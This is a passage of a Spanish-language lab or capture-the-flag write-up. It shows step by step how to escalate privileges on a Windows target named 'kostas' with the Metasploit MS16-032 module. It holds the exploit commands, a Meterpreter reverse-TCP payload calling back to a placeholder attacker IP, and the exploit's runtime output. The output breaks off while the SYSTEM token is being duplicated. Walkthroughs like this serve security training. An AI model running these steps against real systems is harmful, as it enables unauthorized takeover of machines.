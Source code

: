 Excelente, nos marca 2 Exploits, aunque nos vamos a ir por el **MS16-032** para poder escalar privilegios, pues este también lo marco el **Windows Exploit Suggester**.

<h2 id="PruebaExp4">Probando Exploit: Microsoft Windows 7 < 10 / 2008 < 2012 R2 (x86/x64) - Local Privilege Escalation (MS16-032) (PowerShell)</h2>

Vamos a configurar el **Exploit MS16-032**, vamos por pasos:

* Usando Exploit:
```bash
msf6 post(multi/recon/local_exploit_suggester) > use exploit/windows/local/ms16_032_secondary_logon_handle_privesc
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) >
```

* Configurando Exploit:
```bash
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set SESSION 1
SESSION => 1
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > set LHOST Tu_IP
LHOST => Tu_IP
```

* Iniciando Exploit:

```bash
msf6 exploit(windows/local/ms16_032_secondary_logon_handle_privesc) > exploit
.
[*] Started reverse TCP handler on Tu_IP:4444 
[+] Compressed size: 1160
[!] Executing 32-bit payload on 64-bit ARCH, using SYSWOW64 powershell
[*] Writing payload file, C:\Users\kostas\AppData\Local\Temp\uFuAbbcLlZcEA.ps1...
[*] Compressing script contents...
[+] Compressed size: 3747
[*] Executing exploit script...
         __ __ ___ ___   ___     ___ ___ ___ 
        |  V  |  _|_  | |  _|___|   |_  |_  |
        |     |_  |_| |_| . |___| | |_  |  _|
        |_|_|_|___|_____|___|   |___|___|___|
                                            
                       [by b33f -> @FuzzySec]

[?] Operating system core count: 2
[>] Duplicating CreateProcessWithLogonW handle
[?] Done, using thread handle: 1336
.
[*] Sniffing out privileged impersonation token..
.
[?] Thread belongs to: svchost
[+] Thread suspended
[>] Wiping current impersonation token
[>] Building SYSTEM impersonation token
[ref] cannot be applied to a variable that does not exist.
At line:200 char:3
+         $f_tJ = [Ntdll]::NtImpersonateThread($brGHO, $brGHO, [ref]$ko)
+         ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
    + CategoryInfo          : InvalidOperation: (ko:VariablePath) [], RuntimeException
    + FullyQualifiedErrorId : NonExistingVariableReference
. 
[!] NtImpersonateThread failed, exiting..
[+] Thread resumed!
.
[*] Sniffing out SYSTEM shell..
.
[>] Duplicating SYSTEM token
```